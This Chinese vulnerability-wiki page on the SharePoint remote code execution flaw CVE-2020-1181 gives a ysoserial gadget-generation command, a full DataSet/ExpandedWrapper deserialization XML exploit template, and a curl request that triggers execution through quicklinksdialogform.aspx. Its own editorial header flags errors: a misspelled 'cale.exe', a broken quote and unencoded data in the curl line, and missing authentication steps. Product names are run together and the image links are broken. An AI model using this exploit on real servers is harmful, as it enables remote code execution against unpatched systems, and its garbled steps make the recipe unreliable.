

# （CVE-2020-1181）Microsoft SharePoint 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- ysoserial命令cale.exe拼错
- curl结尾弯引号且urlencode(poc.xml)不是已编码数据
- 未给认证凭据/创建页面权限步骤
- 多版本产品列表粘连，补丁缺失
- 图片引用尾部垃圾
- XML是载荷模板不是本库验证成功

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

`SharePoint Portal Server`
是一套门户网站解决方案，使得企业能够便捷地开发出智能的门户网站，能够无缝连接到用户、团队和知识。因此用户能够更好地利用业务流程中的相关信息，更有效地开展工作。

当`Microsoft SharePoint Server`无法正确识别和过滤不安全的`ASP.Net Web`控件时，将会存在一处远程代码执行漏洞。成功利用此漏洞的远程攻击者(需要身份验证)通过创建特制的页面，可以在`SharePoint`应用进程池的上下文中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016Microsoft SharePoint Foundation 2010 Service Pack 2Microsoft SharePoint Foundation 2013 Service Pack 1Microsoft SharePoint Server 2019

三、复现过程
------------

    ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c cale.exe

MicrosoftSharePoint远程代码执行漏洞/media/rId24.png)

替换掉poc.xml内的payload

> Poc.xml

    <DataSet>
      <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">
        <xs:element name="somedataset" msdata:IsDataSet="true" msdata:UseCurrentLocale="true">
          <xs:complexType>
            <xs:choice minOccurs="0" maxOccurs="unbounded">
              <xs:element name="Exp_x0020_Table">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="pwn" msdata:DataType="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:choice>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">
        <somedataset>
          <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">
            <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
            <ExpandedElement/>
            <ProjectedProperty0>
                <MethodName>Deserialize</MethodName>
                <MethodParameters>
                    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
            </ProjectedProperty0>
            </pwn>
          </Exp_x0020_Table>
        </somedataset>
      </diffgr:diffgram>
    </DataSet>

通过 `curl -L -v --ntlm --negotiate "https://www.0-sec.org/_layouts/15/quicklinksdialogform.aspx?Mode=Suggestion" --data "viewstate=&__SUGGESTIONSCHACHE=urlencode(poc.xml)”`

MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

触发漏洞，执行命令
